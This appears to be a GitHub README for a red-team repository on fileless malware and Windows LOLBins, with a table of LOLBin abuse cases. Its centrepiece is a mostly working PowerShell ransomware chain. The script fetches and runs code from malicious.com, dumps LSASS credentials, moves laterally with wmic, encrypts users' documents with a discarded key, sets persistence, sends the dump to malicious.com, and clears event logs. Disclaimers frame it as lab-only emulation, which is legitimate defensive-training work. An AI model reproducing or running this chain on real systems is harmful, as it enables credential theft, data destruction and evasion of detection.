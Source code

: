
This repository contains **cybersecurity techniques and tooling** related to:

- Fileless malware simulation
- Living-Off-the-Land Binaries (LOLBins)
- Offensive security automation (PrintNightmare, SpoolFool, etc.)
- Adversary emulation and red/purple team tradecraft
- Drive-by phishing payload structures
- GitHub Actions for lab-based CI/CD attacks

> This content is provided **strictly for educational and academic purposes** in **controlled environments** such as:
> - Cybersecurity research labs  
> - Purple/Red Team testing frameworks  
> - Cyber range simulations  
> - Adversary emulation for SOC validation  
> - Blue Team training and response testing  

### 🧪 Lab Use Only

This repository and its payloads are designed to **emulate real-world attack behavior** for use in **safe, isolated, and authorized environments only**.  
**Do not deploy** any component of this repository on public-facing systems, third-party infrastructure, or any network you do not own or explicitly have written permission to test.

### ❌ Unauthorized Usage is Prohibited

- This repository must **not be used for malicious purposes**.
- **Misuse of this code or techniques may violate local, national, and international laws**.
- The maintainers of this repository are **not responsible for any misuse** or damage caused by replicating these examples outside of ethical research or sanctioned testing environments.

### ✅ You Accept Full Responsibility

By cloning, forking, or executing any content from this repository, you **agree to use it only for legal, ethical, and educational purposes**. You assume all responsibility for compliance with applicable laws, regulations, and policies.

---

**If you're unsure whether your use case qualifies as authorized, don't proceed. Consult your legal/compliance team or security leadership.**

—

---

## 🧠 NSFW - Fileless Malware 

![Fileless Malware Concept](https://github.com/user-attachments/assets/3108f067-a49b-45c1-b1c4-07691881c76b)

---

## 🧩 LOLBins 101: Living off the Land Binaries & Scripts

**LOLBins** (Living off the Land Binaries) are legitimate Windows system utilities that adversaries repurpose to execute code, evade defenses, and persist. These tools are trusted, signed, and often overlooked by endpoint security solutions.

### ⚙️ Common LOLBins and Their Abuse Cases

| LOLBin              | Abused For                       | ATT&CK Tactics                          |
|---------------------|----------------------------------|-----------------------------------------|
| `rundll32.exe`      | DLL execution                    | Code execution, EDR bypass              |
| `mshta.exe`         | Run HTA payloads                 | Script execution, sandbox evasion       |
| `regsvr32.exe`      | Load COM DLLs                    | Fileless execution, C2 proxy            |
| `wmic.exe`          | Remote command execution         | Process launch, lateral movement        |
| `cmd.exe / powershell.exe` | Script runners          | Payload staging, persistence            |
| `msbuild.exe`       | Inline C# compile/exec           | Fileless malware loading                |
| `certutil.exe`      | Download/decode files            | Exfiltration, staging                   |
| `bitsadmin.exe`     | Remote file fetch                | Delivery, task persistence              |
| `schtasks.exe`      | Task scheduling                  | Privilege escalation, persistence       |
| `esentutl.exe`      | Copy/exec binary payloads        | Stealth operations, exfiltration        |

---

## 🧬 Theoretical Simulation: 100% Fileless Ransomware  
*Using the [MITRE ATT&CK](https://attack.mitre.org/) Framework for Mapping TTPs*

> ⚠️ **Disclaimer**: Code below is a synthetic simulation script intended for red team R&D under proper authorization. DO NOT EXECUTE OUTSIDE OF A SANDBOX ENVIRONMENT.

<details>
<summary>Click to view simulated PowerShell ransomware chain</summary>

```powershell
# 🎯 1. Initial Access (T1190)
$payloadUrl = "http://malicious.com/dropper.ps1"
IEX(New-Object Net.WebClient).DownloadString($payloadUrl)

# ⚡ 2. Execution (T1059.001)
$encPayload = "[Base64-Encoded Payload]"
$decodedPayload = [System.Convert]::FromBase64String($encPayload)
[System.Reflection.Assembly]::Load($decodedPayload)

# 🔓 3. Privilege Escalation (T1548)
Start-Process -FilePath "powershell.exe" -ArgumentList "-ExecutionPolicy Bypass -File C:\Windows\Temp\elevate.ps1" -Verb RunAs

# 🧪 4. Credential Access (T1003.001)
Invoke-Expression "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Windows\Temp\lsass.dmp full"

# 🔍 5. Discovery (T1082)
$sysInfo = Get-WmiObject Win32_ComputerSystem | Select Manufacturer, Model, Name, Domain, UserName
$networkInfo = Get-NetAdapter | Select Name, MacAddress, Status
Write-Output $sysInfo; Write-Output $networkInfo

# 🌐 6. Lateral Movement (T1021.001)
cmd.exe /c "wmic /node:targetPC process call create 'powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\payload.ps1'"

# 💣 7. Impact: File Encryption (T1486)
$targetFiles = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.txt,*.docx,*.xls -Recurse
foreach ($file in $targetFiles) {
    $content = Get-Content $file.FullName -Raw
    $key = (1..32 | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) }) -join ''
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [System.Text.Encoding]::UTF8.GetBytes($key.PadRight(32, 'X'))
    $aes.IV = New-Object byte[] 16
    $encryptor = $aes.CreateEncryptor()
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($content)
    $encryptedContent = [Convert]::ToBase64String($encryptor.TransformFinalBlock($bytes, 0, $bytes.Length))
    Set-Content -Path $file.FullName -Value $encryptedContent
}

# 📌 8. Persistence (T1547.001)
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MaliciousProcess" -Value "powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1"
schtasks /create /tn "MaliciousTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1" /sc onlogon /rl highest

# 📤 9. Exfiltration (T1041)
$exfilData = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\Temp\lsass.dmp"))
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method Post -Body $exfilData

# 🧹 10. Defense Evasion (T1070)
Remove-Item -Path C:\Windows\Temp\* -Force -Recurse
wevtutil cl System; wevtutil cl Security; wevtutil cl Application
cmd.exe /c "attrib +h +s C:\Windows\Temp\*"
```

</details>

---

## 🧭 Additional Resources

- 🔧 [PrintNightmare Deep Dive](https://itm4n.github.io/printnightmare-not-over/)
- 💀 [PrintNightmare Vulnerability Summary](https://cybersparksdotblog.wordpress.com/2024/11/25/windows-print-spooler-eop-the-printnightmare-of-2021/)
- 🛠️ [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
- 🧠 [MITRE ATT&CK Entry - S0697](https://attack.mitre.org/techniques/T1218/)
- 🧬 [LOLGEN - Generate Abuse Chains](https://lolgen.hdks.org/)
- 🦠 [Fileless Malware – Wikipedia Overview](https://en.wikipedia.org/wiki/Fileless_malware)
- 🔗 [DLL Injection Reference](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
- 🖨️ [Printer Driver Exploits](https://github.com/jacob-baines/concealed_position)

---

### 🛡️ Final Note
This repository is a research artifact intended for cybersecurity professionals, malware analysts, and red team operators. Unauthorized use, real-world deployment, or replication of these techniques is prohibited. Always operate within the bounds of your local laws and professional codes of conduct.
